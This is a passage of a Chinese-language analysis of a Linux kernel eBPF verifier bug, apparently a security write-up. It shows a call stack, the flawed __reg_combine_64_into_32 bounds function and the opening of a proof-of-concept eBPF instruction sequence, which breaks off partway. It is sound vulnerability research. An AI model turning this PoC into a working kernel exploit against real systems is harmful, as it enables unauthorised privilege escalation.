 ## 漏洞分析

漏洞调用链如下：

```
#0  __reg32_deduce_bounds (reg=reg@entry=0xffff88801f9b0800) at kernel/bpf/verifier.c:1254
#1  0xffffffff81157c67 in __reg_deduce_bounds (reg=0xffff88801f9b0800) at kernel/bpf/verifier.c:1387
#2  __reg_combine_64_into_32 (reg=reg@entry=0xffff88801f9b0800) at kernel/bpf/verifier.c:1387
#3  0xffffffff8115818d in reg_set_min_max (true_reg=0xffff88801f9b2000, false_reg=false_reg@entry=0xffff88801f9b0800, val=&lt;optimized out&gt;, val32=2415919103,
    opcode=opcode@entry=176 '\260', is_jmp32=is_jmp32@entry=false) at kernel/bpf/verifier.c:7750
#4  0xffffffff81166397 in check_cond_jmp_op (insn_idx=0xffff88800324e000, insn=0xffffc9000002d0e8, env=0xffff88800324e000) at kernel/bpf/verifier.c:8142
#5  do_check (env=0xffff88800324e000) at kernel/bpf/verifier.c:10169
#6  do_check_common (env=env@entry=0xffff88800324e000, subprog=subprog@entry=0) at kernel/bpf/verifier.c:12042
#7  0xffffffff81169909 in do_check_main (env=0xffff88800324e000) at kernel/bpf/verifier.c:12108

```

漏洞点在于__reg_combine_64_into_32 函数：

```
static void __reg_combine_64_into_32(struct bpf_reg_state *reg)
`{`
        __mark_reg32_unbounded(reg);

        if (__reg64_bound_s32(reg-&gt;smin_value) &amp;&amp; __reg64_bound_s32(reg-&gt;smax_value)) `{`
                reg-&gt;s32_min_value = (s32)reg-&gt;smin_value;
                reg-&gt;s32_max_value = (s32)reg-&gt;smax_value;
        `}`
        if (__reg64_bound_u32(reg-&gt;umin_value)) 
                reg-&gt;u32_min_value = (u32)reg-&gt;umin_value;
        if (__reg64_bound_u32(reg-&gt;umax_value)) 
                reg-&gt;u32_max_value = (u32)reg-&gt;umax_value;  

        /* Intersecting with the old var_off might have improved our bounds
         * slightly.  e.g. if umax was 0x7f...f and var_off was (0; 0xf...fc),
         * then new var_off is (0; 0x7f...fc) which improves our umax.
         */
        __reg_deduce_bounds(reg);
        __reg_bound_offset(reg);
        __update_reg_bounds(reg);
`}`
```

构造Poc来验证：

```
BPF_LD_MAP_FD(BPF_REG_9,exp_mapfd),
    BPF_MAP_GET(0,BPF_REG_5),     

    BPF_MOV64_REG(BPF_REG_8, BPF_REG_0), 
    BPF_MOV64_REG(BPF_REG_7, BPF_REG_0), 
    BPF_MOV64_REG(BPF_REG_0, BPF_REG_5),

    BPF_JMP_IMM(BPF_JSGE, BPF_REG_0, 1, 1),
    BPF_EXIT_INSN(),

     BPF_LD_IMM64(BPF_REG_2, 0x8fffffff),
    BPF_JMP_REG(BPF_JGT, BPF_REG_0, BPF_REG_2, 1),
    BPF_EXIT_INSN(),

    BPF_MOV32_REG(BPF_REG_0, BPF_REG_0),
```